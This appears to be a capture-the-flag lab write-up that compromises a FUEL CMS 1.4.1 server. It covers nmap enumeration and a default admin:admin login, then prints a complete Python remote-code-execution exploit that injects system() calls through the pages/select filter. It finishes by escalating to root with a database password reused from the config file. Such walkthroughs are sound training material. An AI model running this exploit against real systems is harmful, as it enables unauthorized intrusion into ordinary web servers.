

## Enumeration:
```shell
❯❯ nmap -sCV -A -T4 10.10.209.134
Starting Nmap 7.97 ( https://nmap.org ) at 2025-08-26 12:02 +0100
Nmap scan report for 10.10.209.134
Host is up (0.071s latency).
Not shown: 999 closed tcp ports (conn-refused)
PORT   STATE SERVICE VERSION
80/tcp open  http    Apache httpd 2.4.18 ((Ubuntu))
|_http-title: Welcome to FUEL CMS
|_http-server-header: Apache/2.4.18 (Ubuntu)
| http-robots.txt: 1 disallowed entry 
|_/fuel/

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 11.82 seconds
```
> - After Searching i found this path in `robots.txt` is `http://<IP>/fuel` :


## Exploitation

> - Now i try Default Credentials For CMS Fuel is `admin:admin`
> - Successful login
> - But I dont Have Access For upload Reverse-Shell because he has a blacklist like `.pdf / .png ...`
> - So, you can try searching for [CVE-FUEL-CMS](https://www.exploit-db.com/exploits/50477)

```py
#!/usr/bin/python3

import requests
from urllib.parse import quote
import argparse
import sys
from colorama import Fore, Style

def get_arguments():
	parser = argparse.ArgumentParser(description='fuel cms fuel CMS 1.4.1 - Remote Code Execution Exploit',usage=f'python3 {sys.argv[0]} -u <url>',epilog=f'EXAMPLE - python3 {sys.argv[0]} -u http://10.10.21.74')

	parser.add_argument('-v','--version',action='version',version='1.2',help='show the version of exploit')

	parser.add_argument('-u','--url',metavar='url',dest='url',help='Enter the url')

	args = parser.parse_args()

	if len(sys.argv) <=2:
		parser.print_usage()
		sys.exit()
	
	return args


args = get_arguments()
url = args.url 

if "http" not in url:
	sys.stderr.write("Enter vaild url")
	sys.exit()

try:
   r = requests.get(url)
   if r.status_code == 200:
       print(Style.BRIGHT+Fore.GREEN+"[+]Connecting..."+Style.RESET_ALL)


except requests.ConnectionError:
    print(Style.BRIGHT+Fore.RED+"Can't connect to url"+Style.RESET_ALL)
    sys.exit()

while True:
	cmd = input(Style.BRIGHT+Fore.YELLOW+"Enter Command $"+Style.RESET_ALL)
		
	main_url = url+"/fuel/pages/select/?filter=%27%2b%70%69%28%70%72%69%6e%74%28%24%61%3d%27%73%79%73%74%65%6d%27%29%29%2b%24%61%28%27"+quote(cmd)+"%27%29%2b%27"

	r = requests.get(main_url)

	#<div style="border:1px solid #990000;padding-left:20px;margin:0 0 10px 0;">

	output = r.text.split('<div style="border:1px solid #990000;padding-left:20px;margin:0 0 10px 0;">')
	print(output[0])
	if cmd == "exit":
		break
```

```shell
❯❯ python3 script.py -u http://10.10.140.243
[+]Connecting...
Enter Command $id
systemuid=33(www-data) gid=33(www-data) groups=33(www-data)
```
> - Now i can use reverse shell :


## Privilege Escalation

> - Great!! / Now i found a File database in : `/var/www/fuel/application/config`
> - in this file i have passwd of root DB 
> - So, Now im ROOT :
```shell
$active_group = 'default';
$query_builder = TRUE;

$db['default'] = array(
	'dsn'	=> '',
	'hostname' => 'localhost',
	'username' => 'root',
	'password' => 'mememe',
	'database' => 'fuel_schema',
	'dbdriver' => 'mysqli',
	'dbprefix' => '',
	'pconnect' => FALSE,
	'db_debug' => (ENVIRONMENT !== 'production'),
	'cache_on' => FALSE,
	'cachedir' => '',
	'char_set' => 'utf8',
	'dbcollat' => 'utf8_general_ci',
	'swap_pre' => '',
	'encrypt' => FALSE,
	'compress' => FALSE,
	'stricton' => FALSE,
	'failover' => array(),
	'save_queries' => TRUE
);

// used for testing purposes
if (defined('TESTING'))
{
	@include(TESTER_PATH.'config/tester_database'.EXT);
}
www-data@ubuntu:/var/www/html/fuel/application/config$ su root
su root
Password: mememe

root@ubuntu:/var/www/html/fuel/application/config# id
id
uid=0(root) gid=0(root) groups=0(root)
root@ubuntu:/var/www/html/fuel/application/config# 
```
